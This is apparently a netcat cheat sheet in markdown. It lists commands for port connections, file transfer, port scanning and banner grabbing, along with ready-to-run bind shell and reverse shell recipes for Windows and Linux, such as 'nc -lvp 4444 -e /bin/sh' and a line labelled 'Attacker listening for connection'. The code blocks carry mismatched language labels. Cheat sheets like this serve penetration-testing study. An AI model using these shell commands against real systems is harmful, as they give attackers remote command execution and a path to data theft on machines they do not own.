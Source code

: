 # Connect to a TCP Port

```shell
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```sh
nc -lvp <port>
```
# Connect and receive a HTTP Page

```html
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```perl
nc -lvp 4444 >output.txt          # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```php
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```javascript
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```python
nc -lvp 443                       # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```ruby
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```sh
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```sh
echo "" | nc -nv -w1 <IP Address> <Ports>
```

